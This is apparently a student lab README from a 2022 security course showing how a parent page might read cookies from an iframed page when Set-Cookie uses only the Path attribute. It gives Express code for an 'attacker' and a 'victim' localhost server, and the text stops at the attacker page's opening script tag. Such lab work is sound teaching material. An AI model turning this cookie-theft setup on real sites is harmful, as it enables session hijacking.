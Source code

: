 
### Demonstrating how a parent page can steal cookies from an iframed page if only the Path attribute is used in ```Set-Cookie```


* In order to demonstrate this, used only the Path attribute in ```Set-Cookie```

* The server that hosts the attacker's site:

```
const express = require('express')
const {createReadStream} = require('fs')
const app = express()
const port = 8001

app.get('/', (req, res) => {
  createReadStream('files/html/cookie.html').pipe(res)
})

app.listen(port, () => {
  console.log(`Attacker listens at http://localhost:${port}`)
})

app.use(express.static('files'))
```


* The server that hosts the victim site:
  * Note: The Path attribute is set here to the cookie


```
const express = require('express')
const {createReadStream} = require('fs')
const app = express()
const port = 8002

app.get('/', (req, res) => {
  res.append('Set-Cookie', 'login=IAmIronMan; Path=/')
  res.send("<html><title>Victim Page</title><br><br>Demonstration on how the Path attribute alone is not sufficient<br><script>document.write(document.cookie)</script></html>")
})

app.listen(port, () => {
  console.log(`Victim listens at http://localhost:${port}`)
})
```



* The attacker's HTML running on http://localhost:8001/ contains an iframe that contains the HTML running on http://localhost:8002

```
<html>
<title>
Attacker Site! BEWARE!!!
</title>


<h1>Successfully stealing cookies</h1>
Skanda Siva, CS595 - Spring 2022, ODU
<br><br>
Demonstration of how a parent page can steal cookies from an iframed page if only the Path attribute is used in Set-Cookie.
<br><br>
<p>

<script>
```